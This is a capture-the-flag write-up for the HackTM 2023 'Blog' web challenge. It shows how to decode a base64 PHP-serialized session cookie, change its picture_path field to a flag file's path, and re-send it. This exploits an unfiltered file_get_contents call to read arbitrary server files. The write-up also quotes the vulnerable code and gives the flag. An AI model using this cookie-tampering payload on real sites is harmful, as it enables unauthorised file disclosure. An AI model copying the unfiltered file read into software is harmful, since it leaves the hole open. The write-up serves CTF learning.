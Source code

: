 # Blog
> We made a new blogging website for everyone to use! It's pretty basic for now,

> and it has a few limitations like:

> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)

> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)

> (im not sure what kind of blog that is tho...)

## About the Challenge
We are given a website and a source code (You can find the source code [here](/2023/HackTM%202023/Blog/dist.zip))


[Image extracted text: Please enter your credentials
Username
Password
Submit
Register herel]


## How to Solve?
First we need to register and login to the website, and you will find dashboard page


[Image extracted text: aaaaa
Create post]


After that, check the cookie. You will find a cookie named `user` and the cookies will be like this
```
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

If we decode the cookie using `base64`. We will get this value
```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

Luckily there is a flag path in the `Dockerfile` file. Change the picture_path from `images/real_programmers.png` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`.

```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

And then encode using `base64` and resend the request. You will retrieve the flag by checking `img` tag. That happen because of the code using `file_get_contents` function without any filter so we can read any files on the server

```php
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
```


[Image extracted text: <body>
div
class=
Container
<br>
<div
class=
rot
Adiv>
div
class=
card
Class=
card-ing-top profile-pic
Src=
daca: inage/png;base64
SGFjalPlle3IzdF9 fdGsTHJpbndfIL MfczB fZnVuKzEz zU3H-I-fQo=
div
class=
card-body
<h3
class=
card-ticle
Caaie
</h3>
[divz
div>
<fdiv>
Adiv
class=
Col-xs-65
41n9]


```
HackTM{r3t__toString_1s_s0_fun_13c573f6}
```